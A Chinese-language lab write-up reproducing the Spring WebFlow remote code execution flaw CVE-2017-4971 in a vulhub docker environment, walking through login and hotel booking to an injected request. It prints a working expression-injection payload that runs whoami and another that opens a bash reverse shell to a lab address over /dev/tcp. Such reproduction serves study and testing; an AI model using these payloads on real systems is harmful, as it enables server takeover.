







# 2x11 漏洞复现——Spring WebFlow远程代码执行（CVE-2017-4971）

## 一、环境搭建

1. vulhub/spring/CVE-2017-4971，使用docker启动环境

   ```shell
   sudo docker-compose up -d
   ```

2. 然后访问http://IP:8080，出现如下web界面

   

## 二、漏洞复现

1. 点击web界面左上角的Login，跳转到如下登录界面

   

2. 使用左边提示的账号密码登录，进入后台后界面如下

   

3. 先搜索id为1的酒店，结果如下

   

4. 选择一家酒店进去点击预定“Book Hotel”，出现如下界面

   

5. 点击Proceed，点击Confirm再次确认，抓包测试一下，在数据包后面加上如下poc

   ```shell
   _(new+java.lang.ProcessBuilder("whoami")).start()=test
   ```

   

6. 可以看到whoami被执行了，并成功获取到用户名root，更改命令，反弹一个shell

   ```shell
   _(new+java.lang.ProcessBuilder("bash","-c","bash+-i+>%26+/dev/tcp/192.168.2.133/4444+0>%261")).start()=test
   ```

7. 成功获取shell

   

